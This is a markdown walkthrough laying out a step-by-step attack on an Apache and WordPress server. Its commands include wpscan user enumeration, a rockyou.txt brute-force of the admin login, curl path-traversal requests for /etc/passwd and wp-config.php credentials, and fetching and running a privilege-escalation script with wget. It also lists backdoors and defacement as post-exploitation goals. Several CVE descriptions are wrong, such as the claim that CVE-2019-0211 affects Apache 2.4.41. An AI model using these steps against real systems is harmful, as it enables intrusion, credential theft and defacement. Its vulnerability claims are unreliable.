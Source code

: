 ### **🔥 Exploitation Scenario: Apache & WordPress Vulnerability on example.com**
---

## **🛠 Target Details (Based on Nmap Scan)**
- **Target:** `example.com (192.168.1.10)`
- **Running Services:**
  - **SSH (22/tcp):** OpenSSH 8.2p1 (Ubuntu)
  - **HTTP (80/tcp):** Apache 2.4.41 (Ubuntu)
  - **HTTPS (443/tcp):** Apache 2.4.41 (Ubuntu) with SSL
  - **MySQL (3306/tcp):** Closed  

- **Web Application:** Possible **WordPress** (detected from `http-title: Example Website`)

---

## **📌 Exploitation Plan: Targeting Apache & WordPress**
💡 **Goal:** Gain access to the web server by exploiting **Apache misconfigurations** and **WordPress vulnerabilities**.

### **1️⃣ Step 1: Check for Apache Vulnerabilities**
📌 **Apache 2.4.41 is outdated**—this version has known vulnerabilities:
- **CVE-2019-0211**: Privilege escalation vulnerability  
- **CVE-2018-1312**: Open redirect exploit  
- **CVE-2017-15715**: Path traversal  

🔍 **Scan for vulnerabilities using Nikto**:
```bash
nikto -h http://example.com
```
📌 **Expected Findings:**
- If directory listing is enabled, sensitive files like **.htpasswd** or **wp-config.php** might be exposed.
- Outdated **Apache modules** could be running.
- **Security headers might be missing**, making the server vulnerable to attacks.

---

### **2️⃣ Step 2: Enumerate WordPress for Weaknesses**
📌 **If WordPress is running, we can exploit outdated plugins, themes, or weak passwords.**

🔍 **Step 2.1: Enumerate WordPress users**
```bash
wpscan --url http://example.com --enumerate u
```
📌 **Expected Findings:**
- If `admin` or other usernames are found, we can **brute-force the login**.

🔍 **Step 2.2: Check for vulnerable WordPress plugins**
```bash
wpscan --url http://example.com --enumerate vp
```
📌 **Expected Findings:**
- Outdated plugins could be **exploited for remote code execution**.

🔍 **Step 2.3: Attempt brute-force attack if weak credentials are found**
```bash
wpscan --url http://example.com --passwords rockyou.txt --usernames admin
```
📌 **Expected Findings:**
- If a weak password exists, we gain access to the **WordPress admin panel**.

---

### **3️⃣ Step 3: Exploiting Apache Path Traversal (CVE-2017-15715)**
📌 **If Apache allows directory traversal**, we can try accessing restricted files.

🔍 **Step 3.1: Check if traversal is possible**
```bash
curl http://example.com/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
📌 **Expected Findings:**
- If successful, it will reveal the **/etc/passwd** file, exposing system users.

🔍 **Step 3.2: Attempt to access the WordPress configuration file**
```bash
curl http://example.com/%2e%2e/%2e%2e/%2e%2e/var/www/html/wp-config.php
```
📌 **Expected Findings:**
- If successful, we retrieve **database credentials** from `wp-config.php`.

---

### **4️⃣ Step 4: Escalate Privileges with CVE-2019-0211**
📌 **CVE-2019-0211** affects Apache versions before 2.4.42, allowing **privilege escalation**.

🔍 **Step 4.1: If we have limited shell access, check Apache version**
```bash
apache2 -v
```
📌 **Expected Findings:**
- If Apache 2.4.41 is confirmed, we can **run a local exploit**.

🔍 **Step 4.2: Run the privilege escalation exploit**
```bash
wget http://exploit-db.com/path/to/exploit.sh
chmod +x exploit.sh
./exploit.sh
```
📌 **Expected Findings:**
- If successful, we gain **root privileges on the web server**.

---

### **💀 Post-Exploitation & Defense Recommendations**
**If we compromise the server, we can:**
- Extract **sensitive data** (database credentials, user info).
- Create a **backdoor** for persistent access.
- Modify website content or **deface the homepage**.

**How to Prevent These Attacks?**
✅ **Update Apache & WordPress regularly.**  
✅ **Restrict access to sensitive files.**  
✅ **Disable directory listing in Apache.**  
✅ **Enforce strong passwords.**  

---

### **🎯 Summary**
| **Step** | **Attack Method** | **Expected Outcome** |
|----------|-----------------|----------------------|
| **1️⃣ Apache Enumeration** | Nikto scan | Finds outdated modules, missing security headers |
| **2️⃣ WordPress Enumeration** | Wpscan | Finds users, weak passwords, vulnerable plugins |
| **3️⃣ Path Traversal** | `%2e%2e/` exploit | Access restricted files like `wp-config.php` |
| **4️⃣ Privilege Escalation** | CVE-2019-0211 exploit | Gain root access to the server |

